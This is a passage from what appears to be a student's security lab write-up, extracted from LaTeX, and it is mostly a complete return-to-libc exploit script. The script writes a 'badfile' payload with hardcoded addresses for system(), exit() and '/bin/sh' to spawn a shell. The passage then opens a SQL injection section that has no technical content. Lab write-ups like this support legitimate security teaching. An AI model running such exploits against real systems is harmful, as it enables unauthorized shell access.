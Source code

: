 \documentclass[10pt,\jkfside,a4paper]{article}
\begin{document}
The final exploit.py program was as follows:
\begin{python}
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 36
sh_addr = 0xffffd2e0       # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 28
system_addr = 0xf7e12420   # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 32
exit_addr = 0xf7e04f80     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
\end{python}

Here is a demonstration of the final attack working:

\begin{figure}[H]
\centering
\includegraphics[width=0.6\textwidth]{returnlibc}
\end{figure}

\section{Web SQL Injection}

\subsection{Task 1: Get Familiar with SQL Statements}

This was trivial:

\begin{figure}[H]
\centering
\includegraphics[width=0.5\textwidth]{sql1}
\end{figure}
\end{document}

